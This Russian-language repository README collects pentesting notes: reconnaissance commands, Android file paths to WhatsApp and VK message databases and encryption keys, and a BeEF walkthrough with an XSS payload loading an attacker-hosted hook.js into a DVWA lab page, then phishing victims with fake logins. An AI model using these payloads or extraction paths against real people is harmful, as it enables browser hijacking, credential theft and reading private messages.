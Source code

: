 # Collection of utilities




## общие ресурсы

#### OWASP (https://www.owasp.org/index.php/Main_Page)

это открытый проект по обеспечению безопасности веб-приложений. На нем содержится большое количество материалов, гайдов по тестированию, разные чек-листы и другие материалы
обязательное изучения:

>https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project
>https://www.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents

#### exploit-db https://www.exploit-db.com/

#### IPper https://ipper.ru/

#### ';--have i been pwned? https://haveibeenpwned.com/

#### браузер


## сканирование сайта

#### Dnsrecon (Kali)
Утилита на Python, которая отображает хосты, домены и другую информация о сайте. 

Для базового тестирования:
> dnsrecon -d site.com

для брута деректорий:
> dnsrecon -d c -D /root/dnsmapCommonSubdomains.txt

#### Dirb (Kali)
Он покажет всевозможные существующие страницы, где ответы не содержат код страницы 404. 
> dirb site.com

#### Nmap (Kali)
Сетевой сканер, который позволяет показать какие порты используются и что на них установлено.





## Wordpress

#### WPscan (Kali)
> wpscan -u site.com

после найти уязвимости: exploit-db


## андроид

#### сообщениям WhatsApp

##### контакты

> /data/data/com.whatsapp/databases/wa.db

##### сообщения

> /data/data/com.whatsapp/databases/msgstore.db

##### ключ шифрования

> /data/data/com.whatsapp/files/key

##### резервные хранятся

> /sdcard/WhatsApp/Databases/msgstore.db.crypt7

### анализ

Andriller (https://www.andriller.com/download/)

WhatsApp Viewer (https://andreas-mausch.de/whatsapp-viewer/): Small tool to display chats from the Android msgstore.db.

### VK Coffee

#### Сообщения 

> /data/data/su.operator555.vkcoffee/databases/databaseVerThree.db 
> /data/data/su.operator555.vkcoffee/databases.vk.db

#### Группы

> /data/data/su.operator555.vkcoffee/databases/groups.db

### VK official

#### Сообщения

> /data/data/com.vkontakte.android/databases/vkim.sqlite
> /data/data/com.vkontakte.android/databases/vk.db

#### Список групп

> /data/data/com.vkontakte.android/databases/groups.db

### Kate Mobile

#### Сообщения+группы 

> /data/data/com.prem.kate_new_6/databases/kate.db

## пользователь — браузер

#### BeFF 
это инструмент работает через браузеры. Проще говоря, Биф это комбайн для эксплуатации XSS и используется при проведение MITM атак.

Главная потребность после получения сессии — закрепиться в системе. Наша сессия будет активна, пока жертва не закроет страницу. Для этого нужно воспользоваться дополнительными инструментами, которые интегрированы в утилиту. 

> sudo beef-xss

> http://localhost:3000/ui/panel/ (beef / beff)

> <script src = "http: //192.168.24.99.06000/hook.js"> </ script>

> // где вместо 192.168.24.99 нужно указать IP своей машины, на которой установлен Beef. 

> Находим целевую страницу, где можно вставить нашу ссылку. В моем случае:

> http://192.168.24.98/DVWA-master/vulnerabilities/xss_r/?name=

> http://192.168.24.98/DVWA-master/vulnerabilities/xss_r/?name=<script src="http://192.168.24.99:3000/hook.js"></script>

Далее вмонтируем этот скрипт в любую форму, которая поддерживает XSS. (если вам интересно, то плагин называется HackBar). После выполнения запроса получаем новый Online Browser. После подключения, вы сможете следить за тем, чем занимается цель, какая у нее позиция курсора и что происходит. Это очень важная информация для получения подходящего момента проведения атаки. 

После того, как вы получили логи, где вам видно, например, что пользователь перешел на сайт Facebook, мы можем ему подсунуть фейковую авторизацию. Для этого будем использовать команду Pretty theft из раздела Social Engineering. 

С помощью этой команды можно организовать фейковую авторизацию для Linkedin, Facebook, Windows, YouTube, Yammer, IOS, Generic. Также можно поиграть с цветами форм и их адаптацией к максимально реальным. Очень хорошая вещь, особенно если наша цель сейчас находится на сайте. 

Также есть крутая атака с поддельным уведомлением в статус баре. Для этого можно воспользоваться Fake Notidication Bar для конкретного браузера. В результате жертва получает вот такое уведомление, что максимально приближено к реальному. вы можете настроить под себя надпись и ссылку, по которой перейдет цель. Сюда нужно добавлять полезные нагрузки для получения полного контроля над машиной нашей цели.

###### Chrome Extension, под названием Screenshot
можно сделать скриншот (Пока это работает только для Chrome).

###### возможности выполнения любого javascript на стороне цели
Для реализации вам необходимо перейти в Misc и выбрать Raw JavaScript. После этого можно будет внедрить любой код и нажать Execute.

## тренинг

#### Damn Vulnerable Web Application (DVWA) (http://www.dvwa.co.uk/)

Это сайт на PHP, который демонстрирует ряд уязвимостей для изучения

#### Buggy web application (bWAPP) (http://www.itsecgames.com/)

Это открытое приложение и включает в себя около сотни уязвимостей, которые классифицируются по OWASP. Также есть готовая сборка для виртуальной машины bee-box.

## безопасность

пароль утилит: Keepass https://keepass.info/

WebRTC: может «засветить» реальный IP юзера, несмотря на использование VPN, Tor, Proxy.

# I just found the contents of this repository around the web.
